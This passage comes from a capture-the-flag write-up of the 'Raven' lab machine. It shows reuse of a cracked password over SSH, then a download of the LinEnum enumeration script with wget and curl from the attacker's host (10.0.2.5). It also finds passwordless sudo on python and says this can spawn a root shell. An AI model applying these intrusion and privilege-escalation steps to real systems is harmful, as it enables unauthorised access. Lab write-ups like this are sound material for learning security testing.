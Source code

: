 <p>
Cracked in 4 seconds with rockyou. Now we can log into steven's wordpress account...but let's try SSH first. Michael reused his password, so maybe Steven did as well. This whole machine seems to be an exercise in weak credentials anyway.
</p>

```
root@kali:~# ssh steven@192.168.1.18
steven@192.168.1.18's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Aug 13 14:12:04 2018
```

<p>
It worked. Thats another user, so let's start enumerating again. Lets automate it this time with <a href='https://github.com/rebootuser/LinEnum'>LinEnum.sh</a>. On the attacking machine, host the script with <code>python -m SimpleHTTPServer 9999</code>. On the victim machine, grab the file using wget or curl: <code>wget 10.0.2.5:9999/file.txt</code> OR <code>curl -O http://10.0.2.5/file.txt</code>. Here's the important bit:
</p>


```
 ### SYSTEM ##############################################
[-] Kernel information:
Linux version 3.16.0-6-amd64 (debian-kernel@lists.debian.org) 
(gcc version 4.9.2 (Debian 4.9.2-10+deb8u1) ) #1 SMP Debian 3.16.57-2 (2018-07-14)

[-] Hostname:
Raven

[-] Super user account(s):
root

[+] We can sudo without supplying a password!
Matching Defaults entries for steven on raven:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User steven may run the following commands on raven:
    (ALL) NOPASSWD: /usr/bin/python

[+] Possible sudo pwnage!
/usr/bin/python
```

<p>
Turns out that steven can run python as root without a password. (We could get this same information with <code>sudo -l</code> while logged in as steven.) Since we can run python as root, and python can spawn a shell, we'll use it to spawn a root shell. Some other common programs that can spawn a shell are nmap, nc, vim, and more. Keep an eye out for these running with root permissions for an easy privesc. I'll use the python interpreter to spawn a shell:
</p>
